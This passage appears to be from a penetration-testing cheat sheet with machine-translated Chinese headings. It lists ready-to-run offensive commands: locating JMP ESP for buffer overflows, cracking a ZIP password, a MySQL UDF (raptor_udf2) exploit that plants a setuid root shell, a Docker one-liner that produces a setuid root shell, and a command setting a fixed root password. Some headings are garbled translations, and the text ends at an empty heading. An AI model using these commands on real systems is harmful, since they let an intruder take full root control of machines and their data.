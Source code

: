 **查找JMP ESP地址**

```text
!mona find -s "\xFF\xE4" -m moduleName
```

**破解ZIP密码**

```text
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

**设置简单HTTP服务器**

```text
# Linux
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -r webrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:80
```

#### MySQL用户自定义功能权限升级

Requires raptor\_udf2.c and sid-shell.c or full raptor.tar:

{% file src="../../.gitbook/assets/sid-shell.c" %}

{% file src="../../.gitbook/assets/raptor\_udf2.c" %}

{% file src="../../.gitbook/assets/raptor.tar" %}

```text
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```text
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');
```

**码头工人特权Esclation**

```text
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```

**重新设置root密码**

```text
echo "root:spotless" | chpasswd
```

**上传文件到目标机器**

